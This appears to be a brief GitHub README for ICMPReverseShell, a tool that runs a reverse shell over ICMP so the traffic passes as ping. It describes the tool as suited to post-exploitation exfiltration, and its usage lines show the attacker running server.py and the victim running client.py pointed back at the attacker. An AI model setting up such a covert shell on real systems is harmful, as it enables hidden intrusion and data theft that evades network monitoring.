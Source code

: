 # ICMPReverseShell

Reverse shell over icmp, this could be used as part of post-exploitation exfihiltration, to mask traffic as simple pings.


# Usage
attacker: sudo python3 server.py -i <interface> -d <victim address>

victim: sudo python3 client.py -i <interface> -d <attacker address>
